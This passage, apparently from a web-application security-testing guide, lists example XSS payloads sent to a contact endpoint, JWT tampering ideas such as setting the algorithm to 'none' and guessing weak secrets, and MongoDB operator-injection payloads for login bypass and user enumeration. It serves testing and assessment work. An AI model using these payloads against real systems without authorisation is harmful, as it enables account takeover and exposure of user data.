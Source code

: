 #### **Target Endpoints**
```http
POST /api/contact
{
  "name": "<script>alert('XSS')</script>",
  "email": "xss@test.com",
  "message": "<img src=x onerror=alert('XSS')>"
}
```

### **3. Authentication Bypass**

#### **JWT Token Manipulation**
```http
GET /api/users/profile
Authorization: Bearer <manipulated_token>
```

#### **Common JWT Attacks**
```javascript
// 1. Algorithm Confusion
// Change "alg": "HS256" to "alg": "none"

// 2. Weak Secret Testing
// Try: "secret", "admin", "password"

// 3. Token Expiry Bypass
// Modify "exp" timestamp to future date
```

### **4. NoSQL Injection**

#### **MongoDB Injection Payloads**
```json
// Login Bypass
{
  "email": {"$ne": null},
  "password": "anything"
}

// User Enumeration
{
  "email": {"$regex": ".*"},
  "password": "anything"
}

// Boolean Injection
{
  "email": "admin@test.com",
  "password": {"$gt": ""}
}
```
